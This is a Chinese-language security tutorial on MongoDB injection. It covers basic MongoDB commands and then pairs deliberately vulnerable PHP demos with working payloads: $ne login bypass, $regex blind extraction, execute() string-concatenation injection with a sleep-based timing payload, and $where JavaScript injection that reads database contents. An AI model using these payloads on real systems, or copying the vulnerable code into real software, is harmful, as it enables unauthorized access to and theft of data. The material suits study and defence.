



MongoDB 注入
目录
Nosql
NoSQL(NoSQL = Not Only SQL )，意即"不仅仅是SQL"。
传统数据库如mysql就是关系型数据库，而如MongoDB就是非关系型数据库，也被叫做NosqL
MongoDB
MongoDB 将数据存储为一个文档，数据结构由键值(key=>value)对组成。MongoDB 文档类似于 JSON 对象。字段值可以包含其他文档，数组及文档数组。

基本概念
与SQL对照
| SQL术语/概念 | MongoDB术语/概念 | 解释/说明 |
|---|---|---|
| database | database | 数据库 |
| table | collection | 数据库表/集合 |
| row | document | 数据记录行/文档 |
| column | field | 数据字段/域 |
| index | index | 索引 |
| table joins | 表连接,MongoDB不支持 | |
| primary key | primary key | 主键,MongoDB自动将_id字段设置为主键 |

数据库操作
db 查看当前数据库
show dbs 查看所有数据库
use db_name 使用某数据库
创建数据库
use new_db_name 如果数据库不存在，则创建数据库，否则切换到指定数据库
db.new_db_name.insert({"xxx":"xxx}) 要显示此新数据库，我们需要向new_db_name 数据库插入一些数据。
删除数据库
db.dropDatabase()
集合操作
db.createCollection(name,option) 创建集合，第二个参数是附加参数
db.collection_name.drop() 删除集合
文档操作
插入文档
db.COLLECTION_NAME.insert({"xx":"x"})
或
db.COLLECTION_NAME.save({"xx":"x"})
查询文档
db.collection.find(query, projection)
query ：可选，使用查询操作符指定查询条件
projection ：可选，使用投影操作符指定返回的键。查询时返回文档中所有键值， 只需省略该参数即可（默认省略）
更新文档
db.collection.update(
<query>,
<update>,
{
upsert: <boolean>,
multi: <boolean>,
writeConcern: <document>
}
)
query : update的查询条件，类似sql update查询内where后面的。
update : update的对象和一些更新的操作符（如$,$inc...）等，也可以理解为sql update查询内set后面的
upsert : 可选，这个参数的意思是，如果不存在update的记录，是否插入objNew,true为插入，默认是false，不插入。
multi : 可选，mongodb 默认是false,只更新找到的第一条记录，如果这个参数为true,就把按条件查出来多条记录全部更新。
writeConcern :可选，抛出异常的级别。
删除文档
db.collection.remove(
<query>,
<justOne>
)
query :（可选）删除的文档的条件。
justOne : （可选）如果设为 true 或 1，则只删除一个文档，如果不设置该参数，或使用默认值 false，则删除所有匹配条件的文档。
MongoDB 注入
所用mongodb驱动
注入根据代码咋写大概有两种情况 一个是代码里直接写死数据库操作的字符串然后执行
#!php
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$query = "db.table.save({'newsid':1})"; //增
$query = "db.table.find({'newsid':1})"; //查
$query = "db.table.remove({'newsid':1})"; //减
$query = "db.table.update({'newsid':1},{'newsid',2})"; 改
$result = $db->execute($query);
一个是使用MongoDB提供的方法进行数据库操作
#!php
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$coll->save(); //增
$coll->find(); //查
$coll->remove(); //减
$coll->update(); //改
MongoDB函数注入
数组绑定注入
#!php
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$username = $_GET['username'];
$password = $_GET['password'];
$data = array(
'username'=>$username,
'password'=>$password
);
$data = $coll->find($data);
$count = $data->count();
if ($count>0) {
foreach ($data as $user) {
echo 'username:'.$user['username']."</br>";
echo 'password:'.$user['password']."</br>";
}
}
else{
echo '未找到';
}
?>
正常业务逻辑
url?username=tom&password=123456
注入
url?username[$ne]=xxxx&password[$ne]=xxxx
这个参数发过去后，多维数组解析后，代码内部就是这个情况
$data = array(
'username'=>array('$ne'=>"xxxx"),
'password'=>array('$ne'=>"xxxx")
);
执行的数据库语句就是 db.test.find({username:{'$ne':'xxxx'},password:{'$ne':'xxxx'}});
就是查询test集合中的 username不为xxxx，password不为xxxx的结果。换而言之就是查询test集合中所有数据
相当于mysql：select * from test where username!='test' and password!='test';
盲注：利用正则
#!php
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$lock = $_POST['lock'];
$key = $_POST['key'];
if (is_array($lock)) {
$data = array(
'lock'=>$lock);
$data = $coll->find($data);
if ($data->count()>0) {
echo 'the lock is right,but wrong key';
}else{
echo 'lock is wrong';
}
}else{
if ($lock == 'aabbccdd'&&$key=='aabbccdd') {
echo 'Your flag is xxxxxxx';
}else{
echo 'lock is wrong';
}
}
?>
payload
key=1&lock[$regex]=^a
key=1&lock[$regex]=^b
key=1&lock[$regex]=^c
.....
相当于：
db.test.find({lock:{'$regex':'^a'}});
db.test.find({lock:{'$regex':'^b'}});
db.test.find({lock:{'$regex':'^c'}});
db.test.find({lock:{'$regex':'^ca'}});
…… ……
db.test.find({lock:{'$regex':'^aabbccdd'}});
字符串拼接
#!php
<?php
$username = $_GET['username'];
$password = $_GET['password'];
$query = "var data = db.test.findOne({username:'$username',password:'$password'});return data;";
//$query = "return db.test.findOne();";
//echo $query;
$mongo = new mongoclient();
$db = $mongo->myinfo;
$data = $db->execute($query);
if ($data['ok'] == 1) {
if ($data['retval']!=NULL) {
echo 'username:'.$data['retval']['username']."</br>";
echo 'password:'.$data['retval']['password']."</br>";
}else{
echo '未找到';
}
}else{
echo $data['errmsg'];
}
?>
本质上攻击手法还是字符拼接然后加注释符
http://127.0.0.1/1.php?username=test'});return {username:tojson(db.getCollectionNames()),password:2};//\&password=test

高版本好像不能加注释符了，那就使用闭合的方法即可。 这个payload是盲注
http://127.0.0.1/1.php?username=test'});if (db.version() > "0") { sleep(10000); exit; }var b=({a:'1\&password=test
where注入 demo
在Mongdb中可以使用\$where操作符,相当于sql语句中的where限制语句,mongodb中的\$where操作符常常引入一个js的函数来作为限制条件，当js函数中的字符串存在未过滤的用户输入时，注入就产生了。
#!php
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->news; //选择集合
$news = $_GET['news'];
$function = "function() {if(this.news == '$news') return true}";
echo $function;
$result = $coll->find(array('$where'=>$function));
if ($result->count()>0) {
echo '该新闻存在';
}else{
echo '该新闻不存在';
}
?>
本质上就相当于
select * from news where news='\$news'，那就字符串拼接就行了，和mysql注入差不多
盲注payload
http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length>0%26%26'1'=='1
http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]=='m'%26%26'1'=='1
http://127.0.0.1/3.php?news=test'%26%26tojson(db.user.find()[0])[0]=='{'%26%26'1'=='1
因为db.user.find()返回的不是一个字符串，无法取出字符进行比较，我们可以将它转化成一个json字符串，就可以比较了。 道理讲明白了，剩下的都是体力活，用python或者php写下小脚本就能实现自动化。
ref
https://wooyun.js.org/drops/Mongodb注入攻击.html